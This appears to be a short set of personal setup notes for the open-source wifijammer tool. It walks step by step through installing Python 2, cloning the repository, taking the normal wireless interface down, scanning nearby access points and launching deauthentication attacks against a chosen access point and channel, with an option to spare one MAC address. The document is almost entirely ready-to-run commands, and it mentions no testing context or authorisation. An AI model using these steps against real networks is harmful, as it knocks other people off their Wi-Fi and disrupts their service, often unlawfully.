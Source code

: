 # Source: https://github.com/DanMcInerney/wifijammer
# Works with wireless cards capable of injection (Alfa has some good ones)

## Install python2.7
<code>
sudo apt install python2
</code>
## Clone Repo
<code>
git clone https://github.com/DanMcInerney/wifijammer
cd wifijammer
</code>
## Connect supported wifi device

## Deactivate normal interface

### a) Disable current wifi
Go into Ubuntu WIFI-Settings. Click on the network you are in and uncheck "Connect automatically..."

Take Wifi into Airplane mode

Take Wifi back into normal mode

### b) Take normal iface down
List interfaces with:
<code>
ip a
</code>

Take down normal interface:
<code>
ifconfig wlp0 down
</code>
## List Accesspoints
<code>
sudo iwlist wlx9cefd5fbf646 scanning | egrep 'Cell |Encryption|Quality|Last beacon|ESSID|Channel'
</code>
## Start deauthenticating with

<code>
sudo python2.7 wifijammer -a Address-from-List -c Channel-from-List --world
</code>

## Optionally: Skip an MAC Address from being jammed
Add option:
-d -s MAC-Address
